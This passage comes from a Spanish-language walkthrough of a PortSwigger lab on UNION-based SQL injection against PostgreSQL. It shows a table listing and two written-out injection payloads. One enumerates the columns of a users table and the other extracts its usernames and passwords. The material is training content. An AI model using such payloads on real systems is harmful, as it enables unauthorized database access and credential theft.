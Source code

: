```abap
┌──(root💀Csiete)-[/mnt/l/Preparación/Portswigger/1 SQL injection/Union]
└─# cat tablas.txt | grep user
user_defined_types
pg_statio_user_sequences
pg_user_mappings
pg_stat_xact_user_functions
pg_user_mapping
user_mappings
pg_stat_user_tables
user_mapping_options
pg_stat_xact_user_tables
pg_statio_user_tables
pg_stat_user_indexes
_pg_user_mappings
pg_statio_user_indexes
users_hraoih
pg_user
pg_stat_user_functions
```

Vamos a modificar la inyección para tratar de ver las columnas de esta tabla ,  y con esta inyección '+UNION+SELECT+column_name,+NULL+FROM+information_schema.columns+WHERE+table_name='users_hraoih'— vemos que nos trae lo que al parecer son las columnas donde están las credenciales de los usuarios username_yzgwzb y password_xuxvzl

![7.5.png](/assets/images/2022-05-10-Examining_the_database_in_SQL_injection_attacks_Portswigger/7.5.png)

Ahora solo nos queda hacer una consulta de estas columnas como lo hemos realizado en retos anteriores, realizamos la inyección con los datos extraidos '+UNION+SELECT+username_yzgwzb,+password_xuxvzl+FROM+users_hraoih— y esta nos devuelve las credenciales de los usuarios

![7.6.png](/assets/images/2022-05-10-Examining_the_database_in_SQL_injection_attacks_Portswigger/7.6.png)
